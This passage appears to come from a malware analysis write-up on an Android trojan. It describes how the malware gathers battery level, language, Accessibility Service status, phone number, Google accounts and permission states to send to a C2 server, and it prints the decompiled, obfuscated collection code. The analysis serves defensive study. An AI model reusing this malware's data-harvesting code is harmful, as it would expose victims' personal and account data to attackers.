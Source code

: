 
# Collected data

The malware will collect data from the victim's device such as battery percentage, language used on device, Accessibility Service status, phone number of the used line, Google accounts, and permissions obtained from the device. Then send it to the C2 server.

```cs
 try {  // DM
            jSONObject0.put(jwozx0.a("Y2NmNQ=="), s2);  // DM
            jSONObject0.put(jwozx0.a("YzlmYw=="), jwozx0.a("ZTZjZDMwYTg="));  // null
                                                                              // AD
            jSONObject0.put(jwozx0.a("Y2FmNA=="), i.battary_percentage(context0));  // BL
            jSONObject0.put(jwozx0.a("ZGNlZg=="), jwozx0.a.sharedpref(context1, c0.af));  // TW
            String s3 = jwozx0.a("ZGJmOQ==");  // SA
            String phone_num = i.s(this) ? "Yjk=" : "Yjg=";  // 0
                                                             // 1
            String s5 = jwozx0.a(phone_num);
            jSONObject0.put(s3, s5);
            jSONObject0.put(jwozx0.a("ZGJlOA=="), jwozx0.a.sharedpref(context1, c0.ar));  // SP
            jSONObject0.put(jwozx0.a("ZGJlYg=="), i.u(context0));  // SS
            jSONObject0.put(jwozx0.a("YzRmZA=="), Locale.getDefault().getLanguage());  // LE
            String s6 = jwozx0.a("ZGJlMQ==");  // SY
            String phone_num = i.accessibility_status(context1, ojfiq.class) ? "Yjk=" : "Yjg=";  // 0
                                                                                                // 1
            String s8 = jwozx0.a(phone_num);
            jSONObject0.put(s6, s8);
            jSONObject0.put(jwozx0.a("ZGJmNQ=="), i.default_sms_pkg(this));  // SM
            jSONObject0.put(jwozx0.a("YzFmYw=="), s1);  // ID
            jSONObject0.put(jwozx0.a("YzFlYg=="), jwozx0.a.sharedpref(context1, c0.ae));  // IS
            String s9 = jwozx0.a("YzZlYQ==");  // NR
            String phone_num = context1.checkCallingOrSelfPermission(jwozx0.a.a.p) == 0 ? ((TelephonyManager)context1.getSystemService("phone")).getLine1Number() : "";
            jSONObject0.put(s9, phone_num);
            jSONObject0.put(jwozx0.a("Y2ZmOQ=="), i.google_acc(this));  // GA
            jSONObject0.put(jwozx0.a("ZDhlYg=="), i.check_permission(jwozx0, c0.q[0]));  // PS
            jSONObject0.put(jwozx0.a("ZDhmYg=="), i.check_permission(jwozx0, c0.q[1]));  // PC
            jSONObject0.put(jwozx0.a("ZDhlOA=="), i.check_permission(jwozx0, c0.q[2]));  // PP
            jSONObject0.put(jwozx0.a("ZDhmNw=="), i.check_permission(jwozx0, c0.q[3]));  // PO
        }
        catch(JSONException unused_ex) {
            jwozx0.a.a(s, jwozx0.a("Y2RlYTBlOGJlYzc2NGIwNjg2ODI1YjcwNzYwYzU4ZTRmNWZhYWRjMg=="));  // ERROR JSON CHECK BOT
        }
```


# Recording audio
